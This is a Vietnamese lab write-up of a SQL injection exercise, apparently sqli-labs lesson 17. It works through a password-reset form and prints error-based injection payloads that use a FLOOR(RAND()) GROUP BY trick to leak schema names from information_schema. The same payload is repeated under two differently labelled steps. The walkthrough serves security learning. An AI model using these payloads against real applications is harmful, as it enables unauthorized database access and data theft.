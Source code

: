 # Những việc làm được với lesson-17
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-17

![](../images/lesson16/screen_4.png)

Ta thấy ở đầu có ghi là `[PASSWORD RESET]` thì tôi đoán đây là một câu lệnh update trong `MariaDB` và nó được sử dụng method post để cập nhật lại password của user nào đó 

Nếu mà như vậy ta có 2 khung cần nhập là user và password thì tôi đoán câu lệnh update của nó sẽ là

```
update users set password='anhduc' where username='user';
```

Ta đã tìm được ra câu lệnh update rồi nhưng mà vấn đề là làm sao để chúng ta biết user nào để tạo ra điều kiện where cho nó 

1. Pass qua đăng nhập 

![](../images/lesson16/screen_5.png)

Tôi đã thử nhập user là `Dhakkan` và thấy rằng nó đăng nhập thành công

## Error-base 
- Sau rất nhiều lần nhập các ký tự đặc biệt mà vẫn không thấy lỗi ở khung user tôi chuyển sang password nhập ký tự đặc biệt thì nó báo lỗi 

![](../images/lesson17/screen_6.png)

- Đây là báo lỗi cấu trúc của password nên ta có thể sử dụng khung lỗi để lấy được thông tin trong DB 

1. Tìm thông tin của DB. Vẫn dùng với user là `Dhakkan`

```
1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 0,1 ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) #
```

![](../images/lesson17/screen.png)

2. Hiển thị tên DB 

```
1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 0,1 ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) #
```

![](../images/lesson17/screen_1.png)

Tương tự như các bài error-base ta làm trước thì ta có thể làm show được thông tin cấu trúc của DB 

